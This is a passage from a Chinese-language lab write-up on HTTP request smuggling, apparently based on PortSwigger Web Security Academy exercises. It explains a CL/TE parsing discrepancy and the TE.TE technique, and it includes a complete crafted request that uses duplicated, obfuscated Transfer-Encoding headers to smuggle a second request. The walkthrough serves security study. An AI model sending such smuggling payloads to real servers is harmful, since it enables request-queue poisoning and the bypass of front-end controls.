 WPOST被拆分了出来，重点关注body部分

```php
\r\n
12\r\n
WPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

前端处理TE读取到`0\r\n\r\n`之后就认为读取完毕发送给后端，而后端处理CL只读取4字节`\r\n12`就认为数据包结束，这时候剩下的`WPOST / HTTP/1.1\r\n\r\n0\r\n\r\n`就被认为是另一个请求，因此发生了请求报错。

### 5.TE TE

TE-TE：前置和后端服务器都支持 `Transfer-Encoding`，但通过混淆能让它们在处理时产生分歧。

lab:<https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header>

构造出如下请求包：

```php
POST / HTTP/1.1
Host: ace41f161f1a1382c0814ee300db0086.web-security-academy.net
Cookie: session=nqskpdP0aWuG4GW5xlYYxEUVulcJC6vG
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding:chunked  //两种TE造成混淆
Transfer-Encoding:cow

5c
WPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
